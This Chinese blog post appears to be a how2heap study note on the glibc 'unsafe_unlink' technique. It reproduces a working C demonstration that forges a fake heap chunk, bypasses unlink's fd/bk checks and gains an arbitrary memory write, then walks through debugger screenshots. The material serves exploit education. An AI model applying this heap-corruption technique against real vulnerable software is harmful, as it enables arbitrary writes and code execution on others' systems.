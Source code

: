 ```yaml
---
title: unsafe_unlink
date:  2020-08-12 18:31:09
updated:  2020-08-12 18:31:09
tags:
    - heap
    - pwn
    - unsafe_unlink
categories: 
	- 二进制安全
	- how2heap
use:
  - Valine
text: true
lazyload: true
count: true
---
```


# 源码

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>


uint64_t *chunk0_ptr;

int main()
{
    fprintf(stderr, "Welcome to unsafe unlink 2.0!\n");
    fprintf(stderr, "Tested in Ubuntu 14.04/16.04 64bit.\n");
    fprintf(stderr, "This technique can be used when you have a pointer at a known location to a region you can call unlink on.\n");
    fprintf(stderr, "The most common scenario is a vulnerable buffer that can be overflown and has a global pointer.\n");

    int malloc_size = 0x80; //we want to be big enough not to use fastbins
    int header_size = 2;

    fprintf(stderr, "The point of this exercise is to use free to corrupt the global chunk0_ptr to achieve arbitrary memory write.\n\n");

    chunk0_ptr = (uint64_t*) malloc(malloc_size); //chunk0
    uint64_t *chunk1_ptr  = (uint64_t*) malloc(malloc_size); //chunk1
    fprintf(stderr, "The global chunk0_ptr is at %p, pointing to %p\n", &chunk0_ptr, chunk0_ptr);
    fprintf(stderr, "The victim chunk we are going to corrupt is at %p\n\n", chunk1_ptr);

    fprintf(stderr, "We create a fake chunk inside chunk0.\n");
    fprintf(stderr, "We setup the 'next_free_chunk' (fd) of our fake chunk to point near to &chunk0_ptr so that P->fd->bk = P.\n");
    chunk0_ptr[2] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*3);
    fprintf(stderr, "We setup the 'previous_free_chunk' (bk) of our fake chunk to point near to &chunk0_ptr so that P->bk->fd = P.\n");
    fprintf(stderr, "With this setup we can pass this check: (P->fd->bk != P || P->bk->fd != P) == False\n");
    chunk0_ptr[3] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*2);
    fprintf(stderr, "Fake chunk fd: %p\n",(void*) chunk0_ptr[2]);
    fprintf(stderr, "Fake chunk bk: %p\n\n",(void*) chunk0_ptr[3]);

    fprintf(stderr, "We assume that we have an overflow in chunk0 so that we can freely change chunk1 metadata.\n");
    uint64_t *chunk1_hdr = chunk1_ptr - header_size;
    fprintf(stderr, "We shrink the size of chunk0 (saved as 'previous_size' in chunk1) so that free will think that chunk0 starts where we placed our fake chunk.\n");
    fprintf(stderr, "It's important that our fake chunk begins exactly where the known pointer points and that we shrink the chunk accordingly\n");
    chunk1_hdr[0] = malloc_size;
    fprintf(stderr, "If we had 'normally' freed chunk0, chunk1.previous_size would have been 0x90, however this is its new value: %p\n",(void*)chunk1_hdr[0]);
    fprintf(stderr, "We mark our fake chunk as free by setting 'previous_in_use' of chunk1 as False.\n\n");
    chunk1_hdr[1] &= ~1;

    fprintf(stderr, "Now we free chunk1 so that consolidate backward will unlink our fake chunk, overwriting chunk0_ptr.\n");
    fprintf(stderr, "You can find the source of the unlink macro at https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=ef04360b918bceca424482c6db03cc5ec90c3e00;hb=07c18a008c2ed8f5660adba2b778671db159a141#l1344\n\n");
    free(chunk1_ptr);

    fprintf(stderr, "At this point we can use chunk0_ptr to overwrite itself to point to an arbitrary location.\n");
    char victim_string[8];
    strcpy(victim_string,"Hello!~");
    chunk0_ptr[3] = (uint64_t) victim_string;

    fprintf(stderr, "chunk0_ptr is now pointing where we want, we use it to overwrite our victim string.\n");
    fprintf(stderr, "Original value: %s\n",victim_string);
    chunk0_ptr[0] = 0x4141414142424242LL;
    fprintf(stderr, "New Value: %s\n",victim_string);
}
```

# 运行结果

**![image.png](https://i.loli.net/2020/11/17/IravxsBte9g3SAO.png)**

# 分析&调试

首先声明了一个全局变量chunk0_ptr:

初始地址在0x602070，内容为0

![image.png](https://i.loli.net/2020/11/17/y1NzHdihPR9oJvS.png)

之后malloc了两块chunk

![image.png](https://i.loli.net/2020/11/17/IeS4KsgQBhw56ar.png)

并将全局变量的值改成了第一个chunk的mem指针地址0x603010

![image.png](https://i.loli.net/2020/11/17/LsuFxgPQonpHYcv.png)

接下去就是要在chunk0中伪造一个chunk了。因为unlink需要检查该节点的前一个节点的后一个节点是不是该节点本身、该节点的后一个节点的前一个结点是不是该节点本身，所以这个我们也需要绕过

首先将chunk0_ptr[2]的值改成了chunk0_ptr的地址-0x18的值，这里是我们伪造的chunk的fd指针

我们将0x602058当做chunk头的话，其bk指针在0x602070上，刚刚好指向我们伪造的这个chunk头的地址

![image.png](https://i.loli.net/2020/11/17/9N1acitqzGgdxDs.png)

接下来将chunk0_ptr[3]的值也就是我们伪造的bk指针改成chunk0_ptr本身地址-0x10的值

可以看到，若是把0x602060当作chunk头，其fd指针又恰好指向了我们伪造的chunk的地址

（这也太巧妙了）

![image.png](https://i.loli.net/2020/11/17/k4osZhytd2qQnj1.png)

那么我们伪造的chunk的fd、bk就能通过检查了~

然后我们通过修改chunk1的prev_size\size字段的控制字段欺骗上一块chunk是我们伪造的chunk并且是free状态

![image.png](https://i.loli.net/2020/11/17/Q41rvpBfmP3tXO6.png)

这个时候我们再free chunk1，就会触发unlink

它先做Fd->bk=Bk,再做Bk->fd=Fd，也就是chunk0_ptr指针的内容先变成0x602060，再变成0x602058

![image.png](https://i.loli.net/2020/11/17/dWtY9qcsCArLHMX.png)

成功合并：

![image.png](https://i.loli.net/2020/11/17/4fAikctvrah71Tx.png)

并且让chunk0_ptr的内容改成了0x602058，这个时候chunk0_ptr 和 chunk0_ptr[3] 指向的是同一个地址

![image.png](https://i.loli.net/2020/11/17/F1s9wxlMPWLDIKc.png)

![image.png](https://i.loli.net/2020/11/17/aNT3GzZxY1poHRe.png)

之后将victim_string赋值为Hello!~

并且将改变量地址放到了chunk0_ptr[3]里面，相当于改chunk_ptr指向了变量地址也就是栈的位置

![image.png](https://i.loli.net/2020/11/17/gvNULMYfwe9iE1V.png)

再之后通过chunk0_ptr[0]修改其中的值

![image.png](https://i.loli.net/2020/11/17/IzgLCeOlp3fRMqb.png)

# 总结

- 巧妙的一点就是伪造chunk的fd和bk可以绕过检测
- unlink的机制
- 主要得搞懂chunk0_ptr和chunk0_ptr[x]分别是什么意思
- 其实主要流程就是在chunk中伪造一个chunk，然后又修改下一个chunk的控制信息，以为上个chunk是free状态，这样free下一个chunk的时候就会触发unlink，就会堆块地址劫持？然后我们通过chunk0_ptr和chunk0_ptr[3]指向同以地址这个特点，通过修改chunk0_ptr[3]的值从而改变chunk0_ptr指向的地址，从而利用chunk0_ptr[0]修改该地址中的内容
